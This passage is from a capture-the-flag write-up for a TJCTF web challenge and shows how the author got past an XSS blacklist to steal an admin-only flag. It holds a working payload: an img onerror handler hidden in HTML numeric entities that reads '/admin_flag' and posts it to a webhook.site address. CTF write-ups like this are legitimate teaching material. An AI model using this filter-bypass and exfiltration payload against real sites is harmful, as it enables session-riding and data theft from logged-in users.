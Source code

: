 It works! Sadly we do not get the flag yet... The anwer we get is: `This post contains unsafe content. To prevent unauthorized access, the flag cannot be accessed if any <script> tags or other javascript is present`

### Obfuscating our payload

So now we have a working payload, but there is a blacklist in place. We need to obfuscate our code so we bypass the blacklist. It is really tight actually: it does not accept single or double quotes, backticks, parenthesis, `<script>` tags or `javascript` string. Trying to bypass the filter by changing the case does not work either.

Finally I got this payload working: 

```html
<img src=c onerror=&#000010&#000032&#000032&#000032&#000032&#0000119&#0000105&#0000110&#0000100&#0000111&#0000119&#000091&#000039&#0000111&#0000110&#0000108&#0000111&#000097&#0000100&#000039&#000093&#000032&#000061&#000032&#0000102&#0000117&#0000110&#000099&#0000116&#0000105&#0000111&#0000110&#000040&#000041&#000032&#0000123&#000010&#000032&#000032&#000032&#000032&#000032&#000032&#000032&#000032&#0000118&#000097&#0000114&#000032&#0000120&#0000104&#0000114&#000032&#000061&#000032&#0000110&#0000101&#0000119&#000032&#000088&#000077&#000076&#000072&#0000116&#0000116&#0000112&#000082&#0000101&#0000113&#0000117&#0000101&#0000115&#0000116&#000040&#000041&#000059&#000010&#000032&#000032&#000032&#000032&#000032&#000032&#000032&#000032&#0000120&#0000104&#0000114&#000046&#0000111&#0000112&#0000101&#0000110&#000040&#000039&#000071&#000069&#000084&#000039&#000044&#000032&#000039&#000047&#000097&#0000100&#0000109&#0000105&#0000110&#000095&#0000102&#0000108&#000097&#0000103&#000039&#000044&#000032&#0000102&#000097&#0000108&#0000115&#0000101&#000041&#000059&#000010&#000032&#000032&#000032&#000032&#000032&#000032&#000032&#000032&#0000120&#0000104&#0000114&#000046&#0000115&#0000101&#0000110&#0000100&#000040&#000041&#000059&#000010&#000032&#000032&#000032&#000032&#000032&#000032&#000032&#000032&#0000118&#000097&#0000114&#000032&#0000120&#0000104&#0000114&#000050&#000032&#000061&#000032&#0000110&#0000101&#0000119&#000032&#000088&#000077&#000076&#000072&#0000116&#0000116&#0000112&#000082&#0000101&#0000113&#0000117&#0000101&#0000115&#0000116&#000040&#000041&#000059&#000010&#000032&#000032&#000032&#000032&#000032&#000032&#000032&#000032&#0000120&#0000104&#0000114&#000050&#000046&#0000111&#0000112&#0000101&#0000110&#000040&#000039&#000080&#000079&#000083&#000084&#000039&#000044&#000032&#000039&#0000104&#0000116&#0000116&#0000112&#0000115&#000058&#000047&#000047&#0000119&#0000101&#000098&#0000104&#0000111&#0000111&#0000107&#000046&#0000115&#0000105&#0000116&#0000101&#000047&#000053&#0000100&#000048&#000048&#000050&#000097&#000049&#000048&#000045&#000050&#000051&#0000102&#000053&#000045&#000052&#000057&#000052&#000054&#000045&#000097&#000057&#000057&#000055&#000045&#000051&#000099&#000097&#000099&#000052&#000099&#000056&#000049&#0000100&#000056&#000048&#000055&#000039&#000044&#000032&#0000116&#0000114&#0000117&#0000101&#000041&#000059&#000010&#000010&#000032&#000032&#000032&#000032&#000032&#000032&#000032&#000032&#0000120&#0000104&#0000114&#000050&#000046&#0000115&#0000101&#0000110&#0000100&#000040&#000074&#000083&#000079&#000078&#000046&#0000115&#0000116&#0000114&#0000105&#0000110&#0000103&#0000105&#0000102&#0000121&#000040&#0000123&#000010&#000032&#000032&#000032&#000032&#000032&#000032&#000032&#000032&#000032&#000032&#000032&#000032&#000039&#000097&#000039&#000058&#000032&#0000120&#0000104&#0000114&#000046&#0000114&#0000101&#0000115&#0000112&#0000111&#0000110&#0000115&#0000101&#000010&#000032&#000032&#000032&#000032&#000032&#000032&#000032&#000032&#0000125&#000041&#000041&#000059&#000010&#000032&#000032&#000032&#000032&#0000125&#000059&#000010>
```

Basically, I replaced the `<script>` tag by a `<img onerror=>` tag. I used the fact that for `source` and `onerror` parameters we can omit the quotes. And I encoded the javascript payload to unicode so it will be executed by the web page.

Flag: `tjctf{st0p_st3aling_th3_ADm1ns_fl4gs}`